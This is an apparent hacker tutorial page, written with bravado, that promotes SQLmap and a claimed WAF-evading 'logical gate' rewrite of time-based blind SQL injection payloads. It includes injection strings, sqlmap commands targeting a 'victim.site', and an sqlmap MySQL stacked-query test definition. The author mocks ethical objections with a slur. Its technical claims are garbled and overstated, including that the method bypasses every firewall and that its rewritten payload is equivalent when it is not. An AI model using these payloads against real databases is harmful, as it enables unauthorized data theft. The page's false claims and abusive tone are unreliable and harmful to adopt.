 # 💉 SQLmap (OP as fuck)

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption><p>Picture of SQLmap</p></figcaption></figure>

CYANIDE: "We pwn databases and slay all the data 🤫🤫✨&#x20;

Incel retard: "Nooo we cannot do that its unethical"&#x20;

CYANIDE: "Router offline?? LULZZ😴😴"

{% embed url="https://cdn.discordapp.com/attachments/1156957811977228459/1226571709541515304/Desktop_2024.04.07_-_18.34.48.02_1.mp4?ex=662e7b6c&hm=d15fe05473cde344efcfb107bfd375d2aeeb9a4e3a790a3c636f6b20e7c03047&is=661c066c" %}
Example of me (**Cyanide/H3ll0k1tty**) getting databse accesss doing SqlMAP INJECTIONZZZ in Base64 Encoding (u can use my theory below to do this as well lolz lolz lolz)
{% endembed %}

**200 IQ custom** theory that slay asf (legit if you can't bypass with this method then there is 0% SQL injection anywayz)

So complex theory as you can see in the picture below this is about logical gates and how the CPU works deep down but im going to be quick and tell you that this is bascially 0s and 1s.. but the reason this is so OP for sqlmap is because everything in the whole PC is made of 0s and 1s thanks to alan turing theory we can create anything thats turing-passable with in binary.

<figure><img src=".gitbook/assets/image (1).png" alt="" width="375"><figcaption></figcaption></figure>

So here is the next slay step...  which is the OP method as we can see **ChatGPT** has verified my theory, we can use the and the "AND" logical gates combined with the "Inverted" logical gate, (**we dont** even need "OR" gate)&#x20;

<figure><img src=".gitbook/assets/image (2).png" alt="" width="563"><figcaption></figcaption></figure>

For example look at this **SQL injection code uwu**

```
(SLEEP(10-(IF(16=16,0,10))))
```

If we look closely we can see that and IF statement is being used we can make the same functionality with my 200 iq method by using logical gates, this is basically the same as the statement above and will bypass every WAF or firewall, if it doesn't you can try with SQLmap --tampers to url encode or use pure parantheses to not include spaces in the URL: \


```
(SELECT(SLEEP(10 - ((NOT(NOT(16=16)) AND 0) AND (NOT(TRUE) AND 10))))
```

```markdown
Here are some extra tings to remeber,...
- **H4ck1ng SQL 101**: `sqlmap -u "victim.site" --tampers=space2comment` for that sneaky attazck 
- **S3cr3t Modes Activate**: Add `--level=5 --risk=3` to go full beast mode on that database


```

You can include my pro haxxor method of "NOT" and "Inverted" + "AND" logical gate in your SQLmap payloads:\


MySQL >= 5.0.12 stacked queries (comment) 4 2 1 1-8 1 ;SELECT IF((\[INFERENCE]),SLEEP(\[SLEEPTIME]),\[RANDNUM]) ;SELECT SLEEP(\[SLEEPTIME]) # \[SLEEPTIME]&#x20;

MySQL >= 5.0.12

```
<test>
    <title>MySQL &gt;= 5.0.12 stacked queries</title>
    <stype>4</stype>
    <level>3</level>
    <risk>1</risk>
    <clause>1-8</clause>
    <where>1</where>
    <vector>;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])</vector>
    <request>
        <payload>;SELECT SLEEP([SLEEPTIME])</payload>
    </request>
    <response>
        <time>[SLEEPTIME]</time>
    </response>
    <details>
        <dbms>MySQL</dbms>
        <dbms_version>&gt;= 5.0.12</dbms_version>
    </details>
</test>
```



or you can use it as a tamper as a python script  in sqlmap:\




so my pro sophisticated method is as pure as a computer can come because of logical.. making it almost impossible for firewalls or other security to detect the attempts.&#x20;

By using logical operations ('AND', 'NOT') we can make the most stealthy and most "bypassable" method for SQL injection attacks.





H3ll0K1tty aka CYANIDE on TOP BTW too smart for this shiiii
